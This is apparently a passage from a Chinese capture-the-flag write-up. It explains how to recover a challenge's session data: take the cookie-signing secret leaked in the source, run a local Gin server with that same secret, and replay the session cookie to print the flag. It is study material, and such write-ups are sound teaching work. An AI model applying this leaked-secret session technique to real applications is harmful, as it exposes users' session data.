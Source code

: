 ```
      var his string

      if session.Get("history") == nil {
         his = ""
      } else {
         his = session.Get("history").(string)
      }

      eval := Eval{}
      if err := c.ShouldBind(&eval); err == nil {
         his = his + eval.String() + "
```

然后根据他的session在本地起一个一样的

```
package main

import (
   _ "embed"
   "fmt"
   "os"

   "github.com/gin-contrib/sessions"
   "github.com/gin-contrib/sessions/cookie"
   "github.com/gin-gonic/gin"
)

func main() {
   port := os.Getenv("PORT")
   if port == "" {
      port = "8080"
   }
   r := gin.Default()
   store := cookie.NewStore([]byte("woW_you-g0t_sourcE_co6e"))
   r.Use(sessions.Sessions("session", store))
   r.GET("/flag", func(c *gin.Context) {
      session := sessions.Default(c)
      println(session.Get("FLAG").(string))
   })
   r.Run(fmt.Sprintf(":%s", port))
}
```

然后访问flag路由，手动添加一个cookie,名字为session的值和原来一样的
